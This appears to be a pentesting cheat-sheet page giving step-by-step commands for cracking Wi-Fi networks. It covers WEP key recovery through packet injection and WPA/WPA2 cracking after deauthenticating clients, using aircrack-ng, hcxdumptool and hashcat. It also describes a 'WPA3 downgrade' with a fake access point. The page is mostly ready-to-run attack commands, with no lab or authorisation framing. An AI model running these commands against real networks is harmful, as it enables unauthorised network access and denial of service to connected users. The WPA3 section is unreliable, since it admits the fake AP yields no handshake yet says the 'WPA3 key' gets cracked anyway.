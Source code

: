 ```yaml
---
title: Wireless
layout: page
parent: network
---
```


# Wireless

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you need to know the name of your wifi interface. You can find it by running the following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1` or something similar.
Once you have identified your wifi interface, you can set it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
sudo airmon-ng start <interface>  # start monitor mode
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng <monitor_interface> #eg wlan0mon
```

This will display a list of all the wifi networks in range, and note the BSSID (MAC address) and channel of the target network.

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> <monitor_interface>
```

This will authenticate you to the network and allow you to capture more packets, then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b <BSSID> <monitor_interface>
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000), you can crack the WEP key using the following command:

```bash
aircrack-ng <output_file>
```

This will attempt to crack the WEP key using the captured packets. If successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to capture the handshake when a client connects to the network, so start the airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

If a client is connected to the network, you will see the handshake in the terminal. If not, you can use the following command to deauthenticate a client and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA/WPA2 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If successful, it will display the WPA/WPA2 key in the terminal.
Note that if the ESSID is hidden, you will need to use the `-e` option to specify the ESSID when cracking the key.

### Option 2 (harder but better)

A way faster and more successful alternative to the previous method is to use `hcxdumptool` to capture the handshake or the PMKID and then crack it with `hashcat`. This makes it more likely to succeed than the previous method since we could only use the handshake with it, and this method allows us to use `hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the 'P' to have a + under them to know that you have captured one of them, allowing you to try to crack the hash.

Now, we need to convert the pcapng file to the specific hash that `hashcat` can use. To do this, we can use the following command:

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

Finally, we can use `hashcat` to crack the hash. You can use the following command to try to crack the hash using a wordlist and a rule file, but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to capture the handshake. To do this, we need to change our approach on the WPA2 AP part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> <monitor_interface>
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following command:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e <SSID> -c <channel> -P -C 30 -Z 4 <monitor_interface>
```

This will create a fake AP with the specified SSID and channel, however, this is not a true WPA2 AP, which does not allow us to capture the handshake. To do this, we need to use a different method. This is the only thing missing to make WPA3 cracking work.

### Option 1 (easier)

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel <channel> --bssid <fake_BSSID> --write <output_file> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA3 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA3 key using the wordlist provided. If successful, it will display the WPA3 key in the terminal.

### Option 2 (harder but better)

Same as WPA2, if you need more explanation check this [part](#option-2-harder-but-faster-and-more-successful) of the WPA2 cracking section.

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <fake_BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its normal mode using the following command:

```bash
sudo airmon-ng stop <monitor_interface>
```

This will stop the monitor mode and reset the interface to its normal mode.
You can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks again.
If you are using a different network manager, rebooting your system should also work.
